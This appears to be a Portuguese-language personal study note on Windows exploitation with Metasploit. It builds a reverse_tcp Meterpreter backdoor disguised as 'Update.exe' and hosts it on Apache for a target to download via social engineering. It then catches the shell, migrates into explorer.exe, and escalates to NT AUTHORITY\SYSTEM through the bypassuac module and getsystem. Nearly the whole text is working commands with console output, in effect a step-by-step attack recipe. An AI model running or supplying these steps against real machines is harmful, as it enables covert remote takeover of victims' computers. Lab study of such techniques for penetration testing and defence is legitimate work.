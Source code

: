 ```yaml
---
tags:
  - EXPLOITATION
  - Payload
---
```

# Criando o backdoor

Primeiro, criaremos um payload com a função **reverse_tcp**. Portanto, abra seu terminal e execute o seguinte comando:

```shell
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.0.2.4 lport=1234 -o Update.exe
```

*IP = sua máquina*
*A porta pode ser qualquer uma. Deve ser usada a mesma posteriormente*

Agora você encontrará o arquivo `.exe` criado no diretório do Linux

# Colocando o backdoor na máquina alvo
Vamos hospedar o backdoor em um servidor simples. Primeiro startando servidor:
```powershell
service apache2 start
```

Copia-lo para uma pasta do servidor
```shell
cp Update.exe /var/www/html #diretório do apache
```

Agora você precisaria encontrar uma maneira de ==fazer a máquina alvo executá-lo==. Há várias maneiras de fazer isso po meio de Engenharia Social, porém esse método está fora do escopo deste tutorial. Vou apenas exemplificar como o alvo acessaria o link com o backdoor:
```powershell
http://172.26.183.253/Update.exe
```

O download iniciará instantaneamente.

```powershell
$ msfconsole  
```

Agora, vamos selecionar o arquivo e usa-lo

```powershell
msf6 > use multi/handler
```

Escolher o payload de para windows, setar o LHOST (nossa máquina) e a porta. Agora só escrever **run** e aguardar a máquina alvo se conectar

```shell
> set payload windows/meterpreter/reverse_tcp
#payload => windows/meterpreter/reverse_tcp
> set lhost 192.168.200.46
#lhost => 192.168.200.46

> set lport 4444
#lport => 4444

> run

#[*] Started reverse TCP handler on 192.168.200.46:4444 
```

Assim que a máquina executar o arquivo, teremos conseguido acesso total.

# Escalação de Privilégios
Com `getuid` conseguimos ver que temos por enquanto apenas permissão de usuário comum
```powershell
meterpreter > getuid
#Server username: rae-PC\rae
```

Para conseguir um nível de administração do sistema, daremos o comando `getsystem`. Assim, teremos mais acesso que antes, porém ainda não é um acesso completo. 

Caso o usuário feche a sessão, perderemos nosso acesso, portanto vamos seguir os próximos passos

Por meio do `getpig`, podemos ver nosso processo atual. Portanto, vamos trocar nosso *pig* por um de outro **processo que sempre está rodando**. Vamos rodar o comando `ps` para ver todos os processos e pegar o pig do processo `explorer.exe`

```powershell
meterpreter > getpid
#Current pid: 1840

meterpreter > ps
2648  2616  explorer.exe    x64   1  
rae-PC\rae              C:\Windows\explorer.exe
```

Para trocar, daremos o seguinte comando:
```powershell
meterpreter > migrate 2648
[*] Migrating from 1840 to 2648...
[*] Migration completed successfully.

meterpreter > getpid
Current pid: 2648 # migração concluida
```

Agora, continuando com a escalação de privilégios, vamos entrar no shell e verificar nosso usuário, que ainda é um usuário padrão:

```powershell
meterpreter > shell
Process 820 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
rae-pc\rae #usuário comum
```

Para isso, vamos sair com `exit` e jogar a sessão para background, criar uma nova e implementar outro exploit para escalação

```powershell
C:\Windows\system32>exit
exit

meterpreter > background
#[*] Backgrounding session 1...

msf6 exploit(multi/handler) > sessions

#Active sessions 3===============

#  Id  Name  Type                     Information          Connection
#  --  ----  ----                     -----------          ----------
  #1         meterpreter x64/windows  rae-PC\rae @ RAE-PC  192.168.200.46:4444 -> 192.168.20
                                                          #0.53:49447 (192.168.200.53)

```


```powershell
msf6 exploit(multi/handler) > search uac
```

O exploit que usuaremos agora é este:

![[Pasted image 20231126172758.png]]

```powershell
msf6 exploit(multi/handler) > use exploit/windows/local/bypassuac
#[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/bypassuac) > 
```

Por meio do comando `show options` conseguimos perceber que precisamos setar uma *session* que no caso é a sessão que anteriormente deixamos em background.

```powershell
msf6 exploit(windows/local/bypassuac) > show options

Module options (exploit/windows/local/bypassuac):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   SESSION                     yes       The session to run this module on
   TECHNIQUE  EXE              yes       Technique to use if UAC is turned off (Accepted: P
                                         SH, EXE)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process,
                                         none)
   LHOST     192.168.200.46   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x86

View the full module info with the info, or info -d command.
```

Vamos setar o mesmo payload anterior

```powershell
msf6 exploit(windows/local/bypassuac) > set payload windows/meterpreter/reverse_tcp
```

Agora escolher uma arquitetura especifica, selecionar os mesmos `lhost` e `lport` como anteriormente e por  fim selecionar a sessão que deixamos em background

```powershell
msf6 exploit(windows/local/bypassuac) > show targets

#Exploit targets:
#=================

#    Id  Name
#    --  ----
#>  0   Windows x86
#    1   Windows x64

msf6 exploit(windows/local/bypassuac) > set target 0
#target => 0

msf6 exploit(windows/local/bypassuac) > set lhost 192.168.200.46
#lhost => 192.168.200.46

msf6 exploit(windows/local/bypassuac) > set lport 2022
#lport => 2022

msf6 exploit(windows/local/bypassuac) > set session 1
#session => 1

msf6 exploit(windows/local/bypassuac) > exploit
```

Uma nova sessão será criada e ficará na session 3. Com `getuid` vemos que ainda somos usuário comum, porém escalar o privilégio com o comando `getsystem`:

```powershell
meterpreter > getsystem
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Agora basta abrir o shell e ver nosso privilégio de admin. 

```powershell
meterpreter > shell
#Process 448 created.
#Channel 1 created.
#Microsoft Windows [Version 6.1.7601]
#Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
#whoami
#nt authority\system
```

